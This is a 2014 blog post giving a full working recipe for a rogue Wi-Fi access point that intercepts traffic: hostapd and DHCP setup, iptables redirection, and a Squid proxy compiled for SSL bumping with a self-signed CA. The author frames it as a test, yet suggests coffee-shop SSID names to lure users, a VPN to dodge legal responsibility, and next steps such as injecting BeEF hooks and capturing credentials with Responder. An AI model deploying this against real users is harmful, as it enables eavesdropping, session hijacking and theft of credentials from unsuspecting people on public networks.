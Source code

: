 ```yaml
---
tags: ["linux", "security"]
title: How-to setup a rogue access point with a transparent HTTP(s) proxy
description: "How to setup a rogue access point with a transparent HTTP(s) proxy"
keywords: "cloud data amazon S3 fake"
aliases:
  - /blog/2014/01/26/transparent-ssl-proxy-with-squid
comments: true
date: 2014-02-24
---
```

I'm always reading about dangerous rogue access points but never actually have seen one in action. So what better than create a test setup..

Hardware for this test setup will be
* my old linux notebook (a macbook pro) as fake access point
* a small [deal extreme](http://www.dx.com) network card (Ralink 5070 chipset). I've actually bought three differnet wireless cards for under $20 and am trying out the different chipsets. This card is rather small (like an usb stick), so it isn't to conspicous

The basic idea is to use [hostap](http://hostap.epitest.fi/hostapd/) to create a virtual access point. Would I be a hypothetical attacker I'd call it 'starbucks', 'freewave' or name it like some coffee shop around the corner. I'm using the notebook's included wireless card to provide an internet uplink. To achieve this I will have to compile a custom version of squid (including ssl support). I'm using [Ubuntu 13.10](http://www.ubuntu.com) for this, other linux distributions would work the same.

<!-- more -->

## Setup hostap

I'm using the Ubuntu-bundled hostapd 1.0. I've tried to compile the lastest version (2.0) by myself but wasn't able to get it working with my wireless network cards -- the major feature of the 2.0 version would be to support 802.11n (more network bandwidth).

First of all check the network cards (wlan1 in my case) with "iw list", it's output should contain the following lines for creating an virtual access point:

~~~
Supported TX frame types:
     ...
		 * AP
		 * AP/VLAN
     ...
	Supported RX frame types:
     ...
		 * AP: 0x00 0x20 0x40 0xa0 0xb0 0xc0 0xd0
		 * AP/VLAN: 0x00 0x20 0x40 0xa0 0xb0 0xc0 0xd0
     ...
~~~

I've create a very basic hostapd.conf configuration file:

~~~
interface=wlan1
ssid=TestAP
channel=11
country_code=DE
macaddr_acl=0
auth_algs=1
ieee8021x=0
~~~

And start the access point:

~~~ bash
$ sudo hostapd hostapd.conf 
Configuration file: hostapd.conf
Using interface wlan1 with hwaddr 7c:dd:90:48:7b:94 and ssid 'TestAP'
~~~

## Setup a DHCP server

First of all, give your access point an IP address and enable IP forwarding (as root):

~~~ bash
$ ifconfig wlan1 10.0.0.1
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$ iptables -t nat -A POSTROUTING -j MASQUERADE
~~~

Now we should have an almost 'normal' access point, lacking DHCP. To add this I'm using udhcpd (as it is a very small DHCP server):

~~~ bash
 $ sudo apt-get install udhcpd
 $ sudo udhcpd -f udhcpd.conf
~~~

with udhcpd.conf being:

~~~
start   10.0.0.100
end     10.0.0.200

interface wlan1   #default: eth0

#Examles
opt dns 8.8.8.8
option  subnet  255.255.255.0
opt router  10.0.0.1
option  domain  local
option  lease 864000
~~~

Now you've got a "normal" access point, without interception capabilities.

## Setup an anonymous VPN service to protect your identity

You could use (Private Internet Access) to anonymize all outgoing traffic through tunneling all traffic through [OpenVPN](http://www.openvpn.net). Get an account from [PIA](https://www.privateinternetaccess.com/pages/buy-vpn/SNIKT001), download the openvpn example config files and start them (for example) through:

~~~
$ sudo openvpn Switzerland.ovpn
~~~

Now all outgoing traffic is anonymized. This helps if you want to create an open access point but your legislation would make you responsible for all traffic going through your access point.

You can always use this setup to provide people with an internet uplink without being responsible for that.

## Compile and setup squid with SSL support

Download the latest verison of [squid](http://www.squid-cache.org/), this was 3.3.11 for me. Unpack and compile it:

~~~ bash
$ cd squid-3.3.11
$ ./configure --prefix=/usr --localstatedir=/var --libexecdir=${prefix}/lib/squid3 --srcdir=. --datadir=${prefix}/share/squid3 --sysconfdir=/etc/squid3 --with-default-user=proxy --with-logdir=/var/log --with-pidfile=/var/run/squid3.pid --enable-inline --enable-async-io=8 --enable-storeio="ufs,aufs,diskd" --enable-removal-policies="lru,heap" --enable-delay-pools --enable-cache-digests --enable-underscores --enable-icap-client --enable-follow-x-forwarded-for --enable-basic-auth-helpers="LDAP,MSNT,NCSA,PAM,SASL,SMB,YP,DB,POP3,getpwnam,squid_radius_auth,multi-domain-NTLM" --enable-ntlm-auth-helpers=”smb_lm,” --enable-digest-auth-helpers=”ldap,password” --enable-negotiate-auth-helpers=”squid_kerb_auth” --enable-external-acl-helpers=”ip_user,ldap_group,session,unix_group,wbinfo_group” --enable-arp---enable-esi --enable-ssl --enable-zph-qos --enable-wccpv2 --disable-translation --with-logdir=/var/log/squid3  --with-filedescriptors=65536 --with-large-files
$ make
$ make install
~~~

Now you have a 'squid' binary that you can start.

But first modify the default squid config (in ```/etc/squid3/squid.conf```) to automatically generate SSl certificates for incoming requests:

~~~
# access rules
acl SSL_ports port 443
acl Safe_ports port 80		# http
acl Safe_ports port 21		# ftp
acl Safe_ports port 443		# https
acl Safe_ports port 70		# gopher
acl Safe_ports port 210		# wais
acl Safe_ports port 1025-65535	# unregistered ports
acl Safe_ports port 280		# http-mgmt
acl Safe_ports port 488		# gss-http
acl Safe_ports port 591		# filemaker
acl Safe_ports port 777		# multiling http
acl CONNECT method CONNECT

http_access deny !Safe_ports
http_access deny CONNECT !SSL_ports
http_access allow localhost manager
http_access deny manager
http_access allow localnet
http_access allow localhost
http_access deny all

# access config
http_port 3128 transparent

https_port 3127 intercept ssl-bump generate-host-certificates=on dynamic_cert_mem_cache_size=4MB cert=/home/andy/workspace/rogue-ap/myCA.pem
ssl_bump none localhost
ssl_bump server-first all
sslproxy_cert_error allow all
sslcrtd_program /usr/lib/squid3/ssl_crtd -s /var/lib/ssl_db -M 4MB

# refresh patterns
refresh_pattern ^ftp:		1440	20%	10080
refresh_pattern ^gopher:	1440	0%	1440
refresh_pattern -i (/cgi-bin/|\?) 0	0%	0
refresh_pattern (Release|Packages(.gz)*)$      0       20%     2880
refresh_pattern .		0	20%	4320
~~~

You have to create an SSL certificate for the squid proxy:

~~~ bash
$ openssl req -new -newkey rsa:1024 -days 365 -nodes -x509 -keyout myCA.pem -out /home/andy/workspace/rogue-ap/myCA.pem
Generating a 1024 bit RSA private key
.............++++++
...............++++++
writing new private key to 'myCA.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:at
State or Province Name (full name) [Some-State]:vienna
Locality Name (eg, city) []:vienna
Organization Name (eg, company) [Internet Widgits Pty Ltd]:really trusted internet company
Organizational Unit Name (eg, section) []:internet security
Common Name (e.g. server FQDN or YOUR name) []:certified company
Email Address []:
~~~

And start the squid proxy from the command line:

~~~ bash
$ sudo squid -NCd9
~~~

So far there will be no traffic forwarded through your squid proxy, we can change this by using iptables:

~~~ bash
$ sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp -m tcp --dport 80 -j DNAT --to-destination 127.0.0.1:3128
$ sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp -m tcp --dport 443 -j DNAT --to-destination 127.0.0.1:3127
~~~

Each client that connects to an https will get an error message -- and this is good, otherwise this would be a rather unbeatable man-in-the-middle-attack. Already you can use ssldump to read all encrypted traffic between the client and the (roriginally ssl-encryptd) peer site -- if the client is too stupid to ignore the browser's warning message.

## Where to go from here?

So far this is just a normal caching rogue access point, what will be the next steps?

* add icap configuration to squid to actually intercept some some traffic
* selective forward of only some https addresses through the squid proxy -- for example, I believe that many mobile applications will not check the validity of SSL certificates
* add something like [Responder](https://github.com/SpiderLabs/Responder) to add additional capture protocols
* use squid proxy to automatically inject [Beef](http://beefproject.com/) javascript

Suggestions welcome!
